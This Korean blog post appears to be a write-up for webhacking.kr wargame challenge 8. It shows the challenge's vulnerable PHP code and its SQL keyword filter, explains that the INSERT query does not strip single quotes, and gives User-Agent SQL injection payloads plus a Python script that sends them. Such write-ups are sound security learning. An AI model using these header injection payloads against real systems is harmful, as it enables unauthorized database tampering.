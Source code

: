 ```yaml
---
title: "webhacking.kr 8번 문제 풀이"
excerpt_separator: "<!--more-->"
categories:
  - webhacking
tags:
  - webhacking
  - wargame
classes: wide
---
```


[8번 바로가기](http://webhacking.kr/challenge/web/web-08/)

문제 페이지에 들어가면 아래와 같은 화면이 나온다. http 헤더의 user-agent를 조작하는 문제라는 느낌을 준다.

![11번](/img/8번_1.JPG)

새로 고침을 하면 done! 뒤의 숫자가 1 증가한다. 70번을 다 채우면 뭔가 있을 것 같다.
소스를 보면 index.phps에 들어가라는 힌트가 있다.


```php
$agent=getenv("HTTP_USER_AGENT");
$ip=$_SERVER[REMOTE_ADDR];

$agent=trim($agent);

$agent=str_replace(".","_",$agent);
$agent=str_replace("/","_",$agent);

$pat="/\/|\*|union|char|ascii|select|out|infor|schema|columns|sub|-|\+|\||!|update|del|drop|from|where|order|by|asc|desc|lv|board|\([0-9]|sys|pass|\.|like|and|\'\'|sub/";

$agent=strtolower($agent);

if(preg_match($pat,$agent)) exit("Access Denied!");

$_SERVER[HTTP_USER_AGENT]=str_replace("'","",$_SERVER[HTTP_USER_AGENT]);
$_SERVER[HTTP_USER_AGENT]=str_replace("\"","",$_SERVER[HTTP_USER_AGENT]);

$count_ck=@mysql_fetch_array(mysql_query("select count(id) from lv0"));
if($count_ck[0]>=70) { @mysql_query("delete from lv0"); }


$q=@mysql_query("select id from lv0 where agent='$_SERVER[HTTP_USER_AGENT]'");

$ck=@mysql_fetch_array($q);

if($ck)
{
echo("hi <b>$ck[0]</b><p>");
if($ck[0]=="admin")

{
@solve();
@mysql_query("delete from lv0");
}


}

if(!$ck)
{
$q=@mysql_query("insert into lv0(agent,ip,id) values('$agent','$ip','guest')") or die("query error");
echo("<br><br>done!  ($count_ck[0]/70)");
}
```

http 헤더의 user-agent 필드에 있는 값에서 sqli에 사용되는 여러 문자를 필터링하고 쿼리를 수행한다.
먼저 lv0 테이블에서 id 컬럼에 값이 몇개 있는지 가져오는데, 이게 70개가 넘어가면 lv0 테이블을 비운다.
그리고 lv0 테이블에서 user-agent에 해당하는 레코드의 id 값을 가져온다. 여기서 첫번째 값이 "admin" 이면 문제가 풀린다.
그 밑에 보면 user-agent에 해당하는 값이 없으면 새로 입력하는데, 이때 user-agent에 넣은 값이 쿼리에 사용된다. user-agent에 쿼리를 넣어 문제 id에 admin을 삽입하면 된다.


일단 '$pat'에서 싱글쿼터를 필터링하지 않는다. select 문에서는 다시 ```$_SERVER[HTTP_USER_AGENT]=str_replace("'","",$_SERVER[HTTP_USER_AGENT]);```에서 싱글쿼터를 필터링하는데,
insert문에서는 ```$agent```를 그대로 사용하기 때문에 싱글쿼터를 필터링하지 않는다.

"insert into lv0(agent,ip,id) values('$agent','$ip','guest')" 여기서 agent에 "hihi', '0', 'admin')#" 이런식으로 쿼리를 넣거나, "a1','i1','admin'), ('a2" 이렇게 주석을 사용 안하고
한 번에 여러 레코드를 삽입하는 쿼리를 만들면 된다.


```python
import urllib.request

agent1 = "hihi', '0', 'admin')#'"
agent2 = "hihi"
header = {'User-Agent':agent1, 'Cookie':'PHPSESSID=본인세션쿠키값'}

req = urllib.request.Request("http://webhacking.kr/challenge/web/web-08/index.php", headers=header)
data = urllib.request.urlopen(req).read()
data = data.decode('UTF-8')

print(data)

header['User-Agent'] = agent2

req = urllib.request.Request("http://webhacking.kr/challenge/web/web-08/index.php", headers=header)
data = urllib.request.urlopen(req).read()
data = data.decode('UTF-8')

print(data)
```

![8번](/img/8번_2.JPG)
